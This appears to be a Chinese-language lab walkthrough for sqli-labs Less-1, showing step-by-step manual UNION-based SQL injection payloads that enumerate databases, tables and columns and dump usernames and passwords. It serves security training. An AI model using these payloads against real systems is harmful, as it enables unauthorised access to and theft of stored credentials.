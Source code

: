 # Less-1 

**GET - Error based - Single quotes - String(基于错误的GET单引号字符型注入)**



### 方法一：**手工UNION联合查询注入**

1.判断是否能够注入

```
http://daishen.ltd:1112/Less-1/?id=1
```

2.判断表中存在几个字段

```
id=1' order by 3 --+
```

3.判断字段位置

```
id=1' and 1=2 union select 1,2,3 --+
```

4.爆所有库.

```
id=1' and 1=2 union select 1,database(),3 --+   查看当前库

id=1' and 1=2 union select 1,group_concat(schema_name),3 from information_schema.schemata --+   查看所有库
```

5.爆指定库的所有表

```
id=1' and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
或者
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

6.爆指定表的所有字段

```
id=1' and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+
```

7.爆出字段内容

```
id=1' and 1=2 union select 1,username,password from users where id=1 --+

id=1' and 1=2 union select 1,group_concat(username),group_concat(password) from security.users --+
```
